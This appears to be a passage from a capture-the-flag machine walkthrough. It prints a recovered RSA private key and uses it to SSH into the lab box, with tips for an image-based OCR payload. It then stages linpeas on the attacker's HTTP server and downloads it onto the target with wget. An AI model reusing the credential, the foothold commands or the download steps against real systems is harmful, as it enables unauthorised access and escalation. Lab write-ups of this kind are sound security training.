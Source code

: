 ```
</p>
```
- Let's remove useless chars from the key and try to ssh to the box using it
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----
```
- `chmod 600 id_rsa_svc-acc`
- `ssh -i id_rsa_svc-acc svc_acc@10.10.11.156`
- We are connected, this foothold was really painful and required patience because the size of the font in the image matters a lot. Here are a few tips if you are stuck.
  - The payloads have to be in one line 
  - I used mousepad with a light theme and zoomed in to make the font bigger
  - If for some reason the exploit did not work because of the size of the font get back to the font that was working before and make edit your picture in gimp or another similar tool by taking the 2 parts of the line to make it in one line 
![image](https://user-images.githubusercontent.com/96747355/167316768-0108325a-9b93-40aa-9dc3-74203ae10977.png)  

## Privilege escalation

- Let's enumerate the machine with linpeas `wget https://github.com/carlospolop/PEASS-ng/releases/download/20220508/linpeas_linux_amd64`
- `python3 -m http.server 80` we serve our file with python http server
- `wget http://10.10.14.11/linpeas_linux_amd64` we get the file in our target
- `chmod +x linpeas_linux_amd64` we make it executable
